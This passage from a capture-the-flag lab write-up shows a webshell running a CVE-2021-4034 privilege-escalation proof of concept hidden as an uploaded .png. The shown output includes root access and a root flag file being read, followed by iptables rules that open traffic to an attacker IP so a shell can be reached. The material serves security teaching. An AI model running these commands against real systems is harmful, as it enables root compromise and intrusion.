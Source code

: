 It’s even nice enough to give me the full path!

#### POC Success

I can just call `bash` on that file (even with the `.png` extension, though I could also move it with the webshell), and it works:
~~~
    [email protected]$ ./webshell.sh 'bash /var/www/html/wp-content/uploads/2022/02/pkwner.png'
    ██████╗ ██╗  ██╗██╗    ██╗███╗   ██╗███████╗██████╗ 
    ██╔══██╗██║ ██╔╝██║    ██║████╗  ██║██╔════╝██╔══██╗
    ██████╔╝█████╔╝ ██║ █╗ ██║██╔██╗ ██║█████╗  ██████╔╝
    ██╔═══╝ ██╔═██╗ ██║███╗██║██║╚██╗██║██╔══╝  ██╔══██╗
    ██║     ██║  ██╗╚███╔███╔╝██║ ╚████║███████╗██║  ██║
    ╚═╝     ╚═╝  ╚═╝ ╚══╝╚══╝ ╚═╝  ╚═══╝╚══════╝╚═╝  ╚═╝
    CVE-2021-4034 PoC by Kim Schulz
    [+] Setting up environment&#8230;
    [+] Build offensive gconv shared module&#8230;
    [+] Build mini executor&#8230;
    uid=0(root) gid=0(root) groups=0(root),33(www-data)
    hello[+] Nice Job
~~~ 

Because it prints out `uid=0`, that shows it ran as root.

#### Get Flag

I can remove the image from the server (with the webshell) change the last line in my local copy to `cat /root/root.txt`, upload it again, and run it to get the flag:
~~~
    [email protected]$ ./webshell.sh 'bash /var/www/html/wp-content/uploads/2022/02/pkwner.png'
    ██████╗ ██╗  ██╗██╗    ██╗███╗   ██╗███████╗██████╗ 
    ██╔══██╗██║ ██╔╝██║    ██║████╗  ██║██╔════╝██╔══██╗
    ██████╔╝█████╔╝ ██║ █╗ ██║██╔██╗ ██║█████╗  ██████╔╝
    ██╔═══╝ ██╔═██╗ ██║███╗██║██║╚██╗██║██╔══╝  ██╔══██╗
    ██║     ██║  ██╗╚███╔███╔╝██║ ╚████║███████╗██║  ██║
    ╚═╝     ╚═╝  ╚═╝ ╚══╝╚══╝ ╚═╝  ╚═══╝╚══════╝╚═╝  ╚═╝
    CVE-2021-4034 PoC by Kim Schulz
    [+] Setting up environment&#8230;
    [+] Build offensive gconv shared module&#8230;
    [+] Build mini executor&#8230;
    8620df0d9701b220a6fcbc207fca5cc1
    hello[+] Nice Job
~~~  

### Shell

To get a shell, there are a few things I could try. One idea would be to script a forward shell. I’ve shown this before (though not in a while) in [Stratosphere](/2018/09/01/htb-stratosphere.html#building-a-shell) and [Scavenger](/2020/02/29/htb-scavenger.html#stateful-shell).

I’m going to take a different tact today and enumerate and `iptables` and poke a hole for myself.

I managed to succeed using these two commands:
~~~
    iptables -A OUTPUT -p tcp -d 10.10.14.6 -j ACCEPT
    iptables -A INPUT -p tcp -s 10.10.14.6 -j ACCEPT
~~~ 
